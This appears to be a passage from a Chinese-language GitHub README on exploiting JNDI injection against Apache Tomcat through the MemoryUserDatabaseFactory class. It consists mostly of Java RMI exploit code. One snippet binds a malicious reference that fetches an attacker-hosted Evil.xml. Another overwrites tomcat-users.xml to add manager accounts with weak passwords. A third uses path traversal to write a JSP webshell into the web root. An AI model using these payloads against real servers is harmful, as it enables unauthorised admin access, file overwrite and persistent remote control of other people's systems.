 ```java
Registry registry = LocateRegistry.createRegistry(1099);
ResourceRef ref = new ResourceRef("org.apache.catalina.UserDatabase", null, "", "",
        true, "org.apache.catalina.users.MemoryUserDatabaseFactory", null);
ref.add(new StringRefAddr("pathname", "http://127.0.0.1:8888/Evil.xml"));
ReferenceWrapper referenceWraper = new ReferenceWrapper(ref);
registry.bind("test", referenceWraper);
```

![image-20220730140050763](README/image-20220730140050763.png)

##### create tomcat's admin

主要是通过`getObjectInstance`方法中的save造成写入文件

他会首先访问到`http://127.0.0.1:8888/../../conf/tomcat-users.xml`, 之后直接覆盖掉了Base/conf/tomcat-user.xml

```java
Registry registry = LocateRegistry.createRegistry(1099);
ResourceRef ref = new ResourceRef("org.apache.catalina.UserDatabase", null, "", "",
        true, "org.apache.catalina.users.MemoryUserDatabaseFactory", null);
ref.add(new StringRefAddr("pathname", "http://127.0.0.1:8888/../../conf/tomcat-users.xml"));
ref.add(new StringRefAddr("readonly", "false"));	
ReferenceWrapper referenceWraper = new ReferenceWrapper(ref);
registry.bind("test", referenceWraper);
```

```xml
<!-- tomcat-users.xml -->
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users>
<role rolename="manager-gui"/>
<role rolename="manager-script"/>
<user username="tomcat" password="tomcat" roles="manager-gui"/>
<user username="admin" password="123456" roles="manager-script,manager-gui"/>
</tomcat-users>
```

##### write webshell

```java
Registry registry = LocateRegistry.createRegistry(1099);
ResourceRef ref = new ResourceRef("org.apache.catalina.UserDatabase", null, "", "",
        true, "org.apache.catalina.users.MemoryUserDatabaseFactory", null);
ref.add(new StringRefAddr("pathname", "http://127.0.0.1:8888/../../webapps/ROOT/test.jsp"));
ref.add(new StringRefAddr("readonly", "false"));	
ReferenceWrapper referenceWraper = new ReferenceWrapper(ref);
registry.bind("test", referenceWraper);
```
